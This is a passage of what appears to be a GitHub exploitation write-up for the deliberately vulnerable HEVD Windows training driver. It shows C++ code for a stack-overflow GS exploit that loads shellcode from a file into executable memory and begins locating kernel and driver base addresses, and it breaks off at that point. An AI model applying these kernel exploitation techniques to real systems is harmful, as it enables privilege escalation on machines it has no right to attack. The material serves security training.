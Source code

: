 ## Thanks

Notes:
1. We could use a dynamic pattern search on our loaded hevd.sys image to find the MiGetPteAddress instead of using a constant offset


```cpp
#include "main.h"


BOOL ExploitStackOverflowGS()
{

    HANDLE hDevice = INVALID_HANDLE_VALUE;  
    BOOL bResult = FALSE;                 
    DWORD junk = 0;                     
    char inBuf[STACK_OVERFLOW_GS_EXPLOIT_BUFFER_LENGTH] = { 'A' };

    char buf[1000] = { 0 };
    PDWORD fOld = NULL;
    LPVOID shellcode;
    HANDLE hFile = INVALID_HANDLE_VALUE;

    hFile = CreateFile(L"sc.bin",       
                              GENERIC_READ,  
                              FILE_SHARE_READ, 
                              NULL,             
                              OPEN_EXISTING,         // existing file only
                              FILE_ATTRIBUTE_NORMAL, // normal file
                              NULL);                

    if (hFile == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open sc.bin file for reading\n");
        bResult = FALSE;
        goto _cleanup;
    }

    DWORD scSize = 0;
    bResult = ReadFile(hFile, buf, 1000, &scSize, NULL);
    if (!bResult) {
        printf("[-] Failed to read shellcode from file: %d\n", GetLastError());
        bResult = FALSE;
        goto _cleanup;
    }
    printf("[*] Shellcode size is: %d\n", scSize);

    shellcode = VirtualAlloc(
        NULL,               // Next page to commit
        scSize,             // Page size, in bytes
        MEM_COMMIT | MEM_RESERVE,   // Allocate a committed page
        PAGE_EXECUTE_READWRITE);    // Read/write access

    if (shellcode == NULL) {
        printf("[-] Unable to reserve memory for shellcode!\n");
        bResult = FALSE;
        goto _cleanup;
    }
    memcpy(shellcode, buf, scSize);

    // Get ntoskrnl and hevd.sys base
    LPVOID drivers[0x500] = {0}; // Should be more than enough
    DWORD cbNeeded;
    LPVOID ntoskrnlBase = NULL, hevdBase = NULL;
```